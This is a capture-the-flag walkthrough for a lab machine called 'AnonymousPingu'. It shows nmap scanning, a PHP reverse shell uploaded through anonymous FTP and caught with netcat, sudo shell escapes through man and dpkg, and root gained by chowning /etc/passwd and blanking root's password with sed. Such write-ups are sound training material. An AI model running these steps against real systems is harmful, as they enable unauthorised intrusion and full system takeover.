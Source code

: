 # AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```
![alt text](Imagenes/Anon_1.png)

We see what appears to be files from a web page, there's a very interesting directory called "upload". We may need to upload some file to create a reverse shell.

## Examining the Web Page and Its Infrastructure
If we examine the page, we find the following:

![alt text](Imagenes/Anon_2.png)

The most important thing in the bar is the "Access backend" menu. If we click on it, it takes us to the upload folder:

## Intrusion

For the intrusion, I used this GitHub script from "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Therefore, I used the ftp tool to upload the reverse.php file, configuring our IP and our port, and using the netcat tool to make the connection.

![alt text](Imagenes/Anon_3.png)

If we listen on port 1234 with netcat and execute the .php file in the browser, it returns the shell

```ruby
nc -lvnp 1234
```

![alt text](Imagenes/Anon_4.png)

Therefore, we are authenticated as the "data" user

# Tratamiento de la TTY

To make it more comfortable for us, we're going to treat the terminal so that there are no errors in some commands and they work.

For this, we first execute the following order:

```ruby 
script /dev/null -c bash
```

We press ctrl + Z to exit the terminal and do the following commands:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

We will have a more comfortable terminal.

## Escalation privilege

For privilege escalation, we will use the following command:

```ruby
sudo -l
``
We see the commands we can execute as root or other users using sudo: 

```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Therefore, if we execute the following command, we can do it as the pingu user

```ruby
sudo -u pingu man man
```

Inside the manual, we can execute the following:

```ruby
!/bin/bash
```

We see that we change users and access as pingu

![alt text](Imagenes/Anon_5.png)

If we execute the previous order, we see new commands that we can execute as the gladys user

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

If we go to the GTObins page, we see that we can exploit it in the following way:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

We gain access with the "gladys" user in a similar way to the previous one.

![alt text](Imagenes/Anon_6.png)


If we execute the `sudo -l` command again

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```

To do this escalation, we can do it in several ways. The simplest way is to try to edit the `/etc/passwd` file, removing the check when the root user's password is requested.

For this, we have to give permission to the gladys user and then overwrite the file

```ruby
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

Then with the `sed` tool we remove the "x" character that is in the root line, we create a temporary file in /tmp.

```ruby
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Finally, we overwrite the `/etc/passwd` file

```ruby 
cp /tmp/passwd.tmp /etc/passwd
```

![alt text](Imagenes/Anon_7.png)